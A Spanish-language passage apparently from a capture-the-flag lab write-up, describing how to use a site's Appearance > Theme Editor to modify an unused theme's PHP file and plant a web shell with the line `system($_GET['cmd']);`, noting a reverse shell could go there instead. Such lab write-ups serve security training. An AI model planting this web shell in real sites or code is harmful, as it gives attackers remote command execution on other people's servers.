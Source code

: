 Estamos dentro.

<br>

<h2 id="WebShell">Modificando Tema con Editor de Temas para Crear WebShell y Ganando Acceso a la Máquina</h2>

Podemos modificar un tema para que ejecute una **Reverse Shell** o para crear una **WebShell**. Yo haré lo segundo.

Del lado izquierdo, encontraremos el **Editor de Temas** en la sección **Apariencia**:

<p align="center">
<img src="/assets/images/THL-writeup-debugsec/Captura7.png">
</p>

Entra ahí y harás lo siguiente:
* Selecciona un tema que no se esté usando.
* Revisa y usa uno de los archivos que ejecute código **PHP**.
* Modifícalo y agrega la siguiente instrucción para crear una **WebShell** (en caso de que quieras una **Reverse Shell**, aquí la puedes poner): `system($_GET['cmd']);`
* Guarda los cambios y recuerda la ruta donde se encuentra el archivo que usaste.

<p align="center">
<img src="/assets/images/THL-writeup-debugsec/Captura8.png">
</p>